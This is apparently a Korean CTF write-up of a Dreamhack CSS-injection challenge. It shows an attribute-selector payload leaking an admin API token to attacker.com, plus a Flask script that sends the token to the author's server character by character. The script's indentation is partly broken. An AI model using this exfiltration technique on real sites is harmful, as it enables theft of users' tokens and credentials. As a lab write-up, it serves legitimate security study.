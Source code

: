 ```yaml
---
title: CSS Injection
author: heogi
date: 2024-11-18
categories:
  - CTF
  - Dreamhack
  - Web
tags:
  - CSS
  - CSS-Injection
  - web
comments: true
---
```

# CSS Injection

## 1. Analysis
memo를 작성할 수 있는 서비스를 제공하는 페이지이다.
![](../assets/img/Pasted%20image%2020241118003515.png)
문제에서 제공하는 코드를 살펴보면 `/report` 를 통해 `admin` 이 사용자가 입력한 특정 URL에 접근하도록 할 수 있는 기능이있다.
또한 `/mypage` 에는 `token`  값이 존재하며 해당 값을 `API-KEY` header에 담아 보내면 `/api/memo` 를 통해 작성한 memo를 확인할 수 있다.

또한 `base.html` 의 코드 중 아래 `color` 파라미터를 통해 사용자의 값을 입력할 수 있으며, 이를 통해 CSS Injection을 트리거 할 수 있다.
```html
<style>
body{
	background-color: {{ color }};
}
</style>
```
![](../assets/img/Pasted%20image%2020241119003348.png)
## 2. Attack
공격을 위한 시나리오는 아래와 같다.
```text
1. color 파라미터를 통해 CSS Injection을 수행한다.
2. Admin의 API-Token 값을 탈취한다.
3. /api/memo를 호출하여 Flag를 확인한다.
```
먼저 color 파라미터를 통해 CSS Injection 공격을 진행, Admin의 API-Token을 탈취해야한다.
이를 위해 CSS Injection Technique 중 `Sequential Import Chaining` 사용한다.

### 2-1. Sequential Import Chaining
CSS의 `Attribute Selectors` 기능을 통해 특정 attribute를 가진 object의 value를 탈취하는 기법이다.
`Attribute Selectors` 는 특정 Attribute를 가진 Object의 CSS Style을 지정하는 기능이다.

input Object의 name이 password 이고 해당 Object의 value를 탈취하고 싶다면
아래처럼 `^=` 특성 선택자를 통하여 value 값에 접미사로 설정한 값이 포함되어있다면 Attacker의 URL로 요청을 보내도록 할 수 있다.
만약 value 가 `beast` 라면 `value^=b` 에서 요청을 보내게되며, 다시 `value^=be` 에서 요청을 보내게 된다.

```html
input[name=password][value^=a]{
    background: url('https://attacker.com/a');
}
input[name=password][value^=b]{
    background: url('https://attacker.com/b');
}
/* ... */
input[name=password][value^=9]{
    background: url('https://attacker.com/9');   
}
```

이를 코드로 구현하면 아래와 같다.

```python
import requests
from flask import Flask, request

app = Flask(__name__)

flag = ""
stop = False

def attack():
	global stop
	global flag
	
	url = "http://host3.dreamhack.games:14737/report"
	headers = {"session":"eyJ1aWQiOjIsInVzZXJuYW1lIjoidGVzdCJ9.Z0sWuQ.wJ757vrJQyofNeQ6TyhUOoRob_g"}

	print("Start Attack")
	
	for x in range(0,8):
		for i in range(ord('a'), ord('z') + 1):
			if stop == True:	
			stop = False	
			break
	
		prefix = flag + chr(i)
		print("sending..."+prefix)
		payload = "mypage?color=green; }} input[id=InputApitoken][value^={0}] {{ background:url(http://ctf.heogi.com:5000/?c={0})".format(prefix)
		data = {"path" : payload}
		requests.post(url, headers=headers, data=data)
	
	print("End Attack")

@app.route("/")
def index():
	global flag
	global stop
	
	if request.args.get('c'):
		c = request.args.get('c')
		flag = c
		print(flag)
		stop = True
	else:
		attack()
return flag

if __name__ == "__main__":
	app.run(host="0.0.0.0",debug=True,port=5000)
```
![](../assets/img/Pasted%20image%2020241130230050.png)
획득한 API-Token으로 /api/memo를 호출하면 FLAG를 획득할 수 있다.
![](../assets/img/Pasted%20image%2020241130230500.png)